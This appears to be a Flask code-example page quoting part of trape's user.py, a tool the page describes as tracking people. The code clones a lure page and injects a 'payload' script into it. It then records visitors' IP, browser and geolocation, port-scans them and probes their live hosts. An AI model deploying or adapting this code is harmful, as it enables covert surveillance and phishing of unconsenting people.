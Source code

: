 
## Example 24 from trape
[trape](https://github.com/jofpin/trape) is a research tool for tracking
people's activities that are logged digitally. The tool uses
[Flask](/flask.html) to create a web front end to view aggregated data
on an individual the application is set to track. The source code is
provided as open source under the MIT license, according to the
[README](https://github.com/jofpin/trape/blob/master/README.md).

[**trape / core / user.py**](https://github.com/jofpin/trape/blob/master/./core/user.py)

```python
# user.py
import time
from core.dependence import urllib2
~~from flask import Flask, render_template, session, request, json, Response
from core.user_objects import *
import core.stats
from core.utils import utils
from core.db import Database
import os
import sys
import platform
from multiprocessing import Process

trape = core.stats.trape
app = core.stats.app

db = Database()

class victim_server(object):
    @app.route("/" + trape.victim_path)
    def homeVictim():
        opener = urllib2.build_opener()
        headers = victim_headers(request.user_agent)
        opener.addheaders = headers
        if (trape.type_lure == 'local'):
            html = assignScripts(victim_inject_code(render_template("/" + trape.url_to_clone), 'payload', '/', trape.gmaps, trape.ipinfo))
        else:
            html = assignScripts(victim_inject_code(opener.open(trape.url_to_clone).read(), 'payload', trape.url_to_clone, trape.gmaps, trape.ipinfo))
        return html

    @app.route("/register", methods=["POST"])
    def register():
~~        vId = request.form['vId']
        if vId == '':
          vId = utils.generateToken(5)
        
~~        victimConnect = victim(vId, request.environ['REMOTE_ADDR'], request.user_agent.platform, request.user_agent.browser, request.user_agent.version,  utils.portScanner(request.environ['REMOTE_ADDR']), request.form['cpu'], time.strftime("%Y-%m-%d - %H:%M:%S"))
~~        victimGeo = victim_geo(vId, request.form['city'], request.form['country_code2'], request.form['country_name'], request.form['ip'], request.form['latitude'], request.form['longitude'], request.form['isp'], request.form['country_code3'], request.form['state_prov'], '', request.form['zipcode'], request.form['organization'], str(request.user_agent), '')
        
~~        vRA = request.environ['REMOTE_ADDR']

        gHA = Process(target=getHostsAlive, args=(vRA, vId,))
        gHA.start()

```